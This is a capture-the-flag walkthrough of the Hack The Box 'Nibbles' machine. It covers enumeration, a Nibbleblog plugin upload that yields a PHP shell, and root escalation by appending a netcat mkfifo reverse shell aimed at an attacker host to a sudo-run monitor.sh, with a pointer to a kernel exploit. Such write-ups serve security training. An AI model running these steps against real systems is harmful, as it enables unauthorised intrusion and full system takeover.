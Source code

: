 # Nibbles HTB, IP 10.10.10.75

# Initial Enumeration

**1. nmap -sC -sV  10.10.10.75**

![ni1](https://user-images.githubusercontent.com/15195048/93920478-18516b00-fcc4-11ea-9dc6-b7a557907a7f.png)

**2. Dirbuster/ Gobuster**

**gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog**

**dirb http://10.10.10.75/nibbleblog -X .php,.bit,.html,.sh**

![ni2](https://user-images.githubusercontent.com/15195048/93920481-19829800-fcc4-11ea-91f1-497e9b80909e.png)

-------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1. Enumerating on port 80

![ni3](https://user-images.githubusercontent.com/15195048/93920485-19829800-fcc4-11ea-9cb1-1c6c5138dc6f.png)

View page source: **Control +U**
 
 
 ![ni4](https://user-images.githubusercontent.com/15195048/93920486-1a1b2e80-fcc4-11ea-830f-777f002a8595.png)


**Interesting Files**

http://10.10.10.75/nibbleblog/
 
 After searching  Nibbleblog it is a powerful engine for creating blogs. 
 
**searchsploit nibbleblog**

 ![ni5](https://user-images.githubusercontent.com/15195048/93920487-1a1b2e80-fcc4-11ea-95f6-8f943e0d60ac.png)


http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php.
Done, we have an unprivileged shell!!



![ni6](https://user-images.githubusercontent.com/15195048/93920488-1ab3c500-fcc4-11ea-8a66-bb1afd8b31d6.png)


**Interactive shell**
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color

user.txt

--------------------------------------------------------------------------------------------------------------------------------------------------------------------
## 1.Privilege Escalation monitor.sh file

**sudo -l**


![ni7](https://user-images.githubusercontent.com/15195048/93920490-1ab3c500-fcc4-11ea-8a93-ad8578fe8582.png)

![ni8](https://user-images.githubusercontent.com/15195048/93920492-1b4c5b80-fcc4-11ea-84f7-8167da0ea2f1.png)

**unzip personal.zip**

![ni9](https://user-images.githubusercontent.com/15195048/93920494-1b4c5b80-fcc4-11ea-8f95-2e5c6dd713ea.png)

**Notes:**
When we see a back up file we first look at permissions and potential vulnerarle code. Then we google the file in order to find more info.
If we cannot overwrite the file we could rename it, remove it, zip it or make my own file containing bash, reverse shell.
The concept when a file runs as root is to add code(reverse-shell).

Add a reverse shell to monitor.sh.
**echo “rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacking machine>  4422 > /tmp/f” >> monitor.sh**
 
![ni10](https://user-images.githubusercontent.com/15195048/93920497-1be4f200-fcc4-11ea-92ea-ab147316aa7a.png)


monitor.sh file runs as administrator

**Notes:**
  A System Administrator has to monitor the servers, users, logs, create backup.. For the most repetitive task most of the administrator write a script like monitor.sh to automate their day-to-day repetitive task.
  
## 2.Kernel Exploit
Additionally, this box is vulnerable to a kernel exploit. This monitor.sh file script showed OS Vesion 16.04.3.

![ni11](https://user-images.githubusercontent.com/15195048/93920499-1be4f200-fcc4-11ea-84ac-091e02f26419.png)

  
**CVE ID 44298**
Resource:  https://www.exploit-db.com/exploits/44298

![ni12](https://user-images.githubusercontent.com/15195048/93920500-1c7d8880-fcc4-11ea-9916-d0b886c57533.png)

 
